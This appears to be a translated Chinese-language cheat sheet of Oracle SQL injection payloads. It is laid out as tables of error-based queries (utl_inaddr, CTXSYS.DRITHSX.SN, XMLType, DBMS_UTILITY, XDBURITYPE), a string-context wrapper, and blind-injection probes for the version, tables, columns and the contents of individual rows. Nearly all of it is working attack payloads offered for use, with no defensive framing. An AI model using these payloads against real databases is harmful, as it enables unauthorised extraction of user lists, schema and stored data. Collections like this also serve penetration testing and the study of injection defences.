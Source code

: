 ### Oracle SQL列出列

```sql
SELECT column_name FROM all_tab_columns WHERE table_name = 'blah';
SELECT COLUMN_NAME,DATA_TYPE FROM SYS.ALL_TAB_COLUMNS WHERE TABLE_NAME='<TABLE_NAME>' AND OWNER='<DBNAME>'
```

## Oracle SQL基于错误的注入

| 描述                     | 查询                                                |
| ------------------------ | -------------------------------------------------- |
| 无效的HTTP请求            | `SELECT utl_inaddr.get_host_name((select banner from v$version where rownum=1)) FROM dual` |
| CTXSYS.DRITHSX.SN         | `SELECT CTXSYS.DRITHSX.SN(user,(select banner from v$version where rownum=1)) FROM dual` |
| 无效的XPath              | `SELECT ordsys.ord_dicom.getmappingxpath((select banner from v$version where rownum=1),user,user) FROM dual` |
| 无效的XML                | `SELECT to_char(dbms_xmlgen.getxml('select "'||(select user from sys.dual)||'" FROM sys.dual')) FROM dual` |
| 无效的XML                | `SELECT rtrim(extract(xmlagg(xmlelement("s", username || ',')),'/s').getstringval(),',') FROM all_users` |
| SQL错误                  | `SELECT NVL(CAST(LENGTH(USERNAME) AS VARCHAR(4000)),CHR(32)) FROM (SELECT USERNAME,ROWNUM AS LIMIT FROM SYS.ALL_USERS) WHERE LIMIT=1))` |
| XDBURITYPE getblob       | `XDBURITYPE((SELECT banner FROM v$version WHERE banner LIKE 'Oracle%')).getblob()` |
| XDBURITYPE getclob       | `XDBURITYPE((SELECT table_name FROM (SELECT ROWNUM r,table_name FROM all_tables ORDER BY table_name) WHERE r=1)).getclob()` |
| XMLType                  | `AND 1337=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||'~'||(REPLACE(REPLACE(REPLACE(REPLACE((SELECT banner FROM v$version),' ','_'),'$','(DOLLAR)'),'@','(AT)'),'#','(HASH)'))||'~'||CHR(62))) FROM DUAL) -- -` |
| DBMS_UTILITY             | `AND 1337=DBMS_UTILITY.SQLID_TO_SQLHASH('~'||(SELECT banner FROM v$version)||'~') -- -` |

当注入点在字符串内时使用：`'||PAYLOAD--`

## Oracle SQL盲注

| 描述                     | 查询                                              |
| ------------------------ | ------------------------------------------------ |
| 版本为12.2               | `SELECT COUNT(*) FROM v$version WHERE banner LIKE 'Oracle%12.2%';` |
| 子查询已启用             | `SELECT 1 FROM dual WHERE 1=(SELECT 1 FROM dual)` |
| 表log_table存在          | `SELECT 1 FROM dual WHERE 1=(SELECT 1 from log_table);` |
| 列message存在于表log_table中 | `SELECT COUNT(*) FROM user_tab_cols WHERE column_name = 'MESSAGE' AND table_name = 'LOG_TABLE';` |
| 第一条消息的第一个字母是t | `SELECT message FROM log_table WHERE rownum=1 AND message LIKE 't%';` |

### Oracle盲注与子串等效

| 函数    | 示例                                   |
| ------- | ------------------------------------- |
| `SUBSTR` | `SUBSTR('foobar', <START>, <LENGTH>)` |
